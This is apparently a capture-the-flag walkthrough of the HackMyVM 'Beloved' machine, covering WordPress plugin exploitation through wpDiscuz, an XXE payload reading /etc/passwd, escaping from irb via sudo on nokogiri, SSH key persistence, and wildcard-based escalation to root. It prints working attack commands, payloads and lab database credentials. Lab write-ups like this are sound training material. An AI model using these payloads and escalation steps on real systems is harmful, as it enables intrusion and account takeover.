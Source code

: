 ```yaml
---
title: "Beloved - HackMyVM Walkthrough"
---
```


Difficulty: Easy

nmap service scan: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/beloved]
└─$ nmap -p- -sV 192.168.56.254
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-23 17:09 EDT
Nmap scan report for 192.168.56.254
Host is up (0.00050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

There's a default wordpress install on the machine and wpscan enumerated the user 
smart_ass. Lets take a deeper look into the plugins on the system with wpscan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/beloved]
└─$ wpscan --url http://beloved/ -e ap --plugins-detection aggressive --no-banner
--SNIP--
[i] Plugin(s) Identified:

[+] akismet
 | Location: http://beloved/wp-content/plugins/akismet/
 | Latest Version: 4.2.1
 | Last Updated: 2021-10-01T18:28:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://beloved/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] feed
 | Location: http://beloved/wp-content/plugins/feed/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://beloved/wp-content/plugins/feed/, status: 200
 |
 | The version could not be determined.

[+] wpdiscuz
 | Location: http://beloved/wp-content/plugins/wpdiscuz/
 | Last Updated: 2021-10-22T18:22:00.000Z
 | Readme: http://beloved/wp-content/plugins/wpdiscuz/readme.txt
 | [!] The version is out of date, the latest version is 7.3.5
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://beloved/wp-content/plugins/wpdiscuz/, status: 200
 |
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://beloved/wp-content/plugins/wpdiscuz/readme.txt
--SNIP--
{% endhighlight %}
`wpdiscuz` pops out as an unusual plugin along with the fact that it's very outdated.

Using searchsploit to find an exploit for this plugin: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/beloved]
└─$ searchsploit WordPress wpDiscuz
--------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------- ---------------------------------
Wordpress Plugin wpDiscuz 7.0.4 - Unauthenticated  | php/webapps/49401.rb
--------------------------------------------------- ---------------------------------
{% endhighlight %}

After loading the exploit into metasploit and reloading the modules, we can set up
to run the attack by setting all of options in the `info`. For this exploit I had 
to also set LHOST. 

I don't like the meterpreter shell so we'll drop to a system command shell using 
`shell`. After doing so we'll need a more interactive shell. Luckily this machine
has python installed:
{% highlight terminal %}
python -c 'import pty; pty.spawn("/bin/bash");'
www-data@beloved:/var/www/html/wordpress/wp-content/uploads/2021/10$ 
{% endhighlight %}


Local enumeration

checking `sudo -l`:
{% highlight terminal %}
User www-data may run the following commands on beloved:
    (beloved) NOPASSWD: /usr/local/bin/nokogiri
{% endhighlight %}

mysql user and password from `wp-config.php`: 
{% highlight php %}
/** MySQL database username */
define( 'DB_USER', 'wordpress_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'secure_password_2021!!!' );
{% endhighlight %}


nokogiri infomation: 
{% highlight terminal %}
www-data@beloved:/$ sudo -u beloved /usr/local/bin/nokogiri -v
sudo -u beloved /usr/local/bin/nokogiri -v
# Nokogiri (1.11.7)
{% endhighlight %}

There's an XXE vulnerability mentioned in an advisory for this version of nokogiri: 
https://github.com/sparklemotion/nokogiri/security/advisories/GHSA-2rr5-8q37-2w7h

Let's enumerate further before attempting an exploit. 

Enumerating the sticky bit binaries and files on the system:
{% highlight terminal %}
www-data@beloved:/$ find / -perm -1000 -type d 2>/dev/null   
find / -perm -1000 -type d 2>/dev/null
/sys/fs/bpf
/dev/mqueue
/dev/shm
/run/lock
/tmp
/var/tmp
/var/spool/cron/crontabs
/var/lib/php/sessions
{% endhighlight %}

SUID binaries on the system:
{% highlight terminal %}
www-data@beloved:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
{% endhighlight %}

Not much to go on with that. Back to nokogiri. 

Let's see if we can access any files on the system by writing some XML and copying it
over to the victim machine. The XML:
{% highlight xml %}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <username>&xxe;</username>
</xml>
{% endhighlight %}
This was saved as readpasswd.txt. 

Then we set up a webserver to copy the XML file over to the victim machine: 
Attacker machine:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/beloved]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.56.254 - - [28/Oct/2021 15:34:37] "GET /readpasswd.txt HTTP/1.1" 200 -
{% endhighlight %}

Vicitim machine: 
{% highlight terminal %}
www-data@beloved:/tmp$ wget http://192.168.56.224:8000/readpasswd.txt
wget http://192.168.56.224:8000/readpasswd.txt
--2021-10-25 09:36:09--  http://192.168.56.224:8000/readpasswd.txt
Connecting to 192.168.56.224:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 145 [text/plain]
Saving to: 'readpasswd.txt'

readpasswd.txt      100%[===================>]     145  --.-KB/s    in 0s      

2021-10-25 09:36:09 (9.62 MB/s) - 'readpasswd.txt' saved [145/145]
{% endhighlight %}

Now let's try and feed the XML to nokogiri just as a test run:
{% highlight terminal %}
www-data@beloved:/tmp$ sudo -u beloved /usr/local/bin/nokogiri readpasswd.txt
sudo -u beloved /usr/local/bin/nokogiri readpasswd.txt
Your document is stored in @doc...
irb(main):001:0> help
help

Enter the method name you want to look up.
You can use tab to autocomplete.
Enter a blank line to exit.

>> 
{% endhighlight %}

Interestingly enough it's dropped us into a irb shell. Taking a look at gtfobins for 
irb shows us how to pop a shell from within irb. Maybe this will still have the 
privileges that the beloved user has:

{% highlight terminal %}
exec '/bin/bash' 
Nothing known about .exec '/bin/bash'
>> 

=> nil
irb(main):002:0> exec '/bin/bash'
exec '/bin/bash'
beloved@beloved:/tmp$
{% endhighlight %}

By entering a newline, we dropped into a different irb session from which we can 
escape to a bash shell! 

Getting the user.txt flag:
{% highlight terminal %}
beloved@beloved:~$ cat user.txt
cat user.txt
{% endhighlight %}

Checked the `/opt` directory and found `id_rsa` belonging to the root user. 

Setting up persistence on the machine by adding our public key to the authorized_keys
file in the beloved users home directory worked so now we have access via ssh. 

Poking around in the bash_history file as the beloved user showed the following: 
{% highlight terminal %}
beloved@beloved:~$ cat .bash_history 
clear
id
clear
wget http://192.168.0.28:8000/pspy64
cd ~
wget http://192.168.0.28:8000/pspy64
chmod +x *
clear
./pspy64 |grep "UID=0"
clear
cd /opt
clear
ls -l
cat id_rsa 
clear
touch test && touch -- --reference=test
clear
watch ls -l
clear
cat id_rsa 
cd ~
nano id_rsa
chmod 600 id_rsa 
clear
ssh -i id_rsa root@localhost
{% endhighlight %}

Can we use the key in the opt directory even without the correct permissions? turns
out it's password protected and we can't. 

Checking the kernel version to see if it's vulnerable to any exploits: 
{% highlight terminal %}
beloved@beloved:~$ uname -a
Linux beloved 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
{% endhighlight %}

searchsploit relevant results: 
{% highlight terminal %}
Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pke | linux/local/47163.c
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_S | linux/local/47164.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_S | linux/local/47165.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_S | linux/local/47166.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_S | linux/local/47167.sh
{% endhighlight %}

The shell scripts require certain software to be installed on the system in order to
function which means they can't be used in this instance. 
The C program seems promising enough to at least attempt on the target machine as 
the required software is on the system. After setting up, let's compile the exploit
code:
`beloved@beloved:/tmp$ gcc -s 47163.c -o ptrace_traceme_root`

Running the exploit did nothing unfortunately. 

Moving back to the `bash_history` we can see the attack method used to exploit the 
wildcard functionality in the bash shell. 
Using the method described here: https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/

Following the steps illustrated in the history file gets us the root shell. 

Getting the root

Following the steps illustrated in the history file gets us the root shell. 
{% highlight terminal %}
touch test && touch -- --reference=test
clear
watch ls -l
clear
cat id_rsa 
cd ~
nano id_rsa
chmod 600 id_rsa 
clear
ssh -i id_rsa root@localhost
{% endhighlight %}

From here we get the root flag and submit it for the points. Hooray for points.
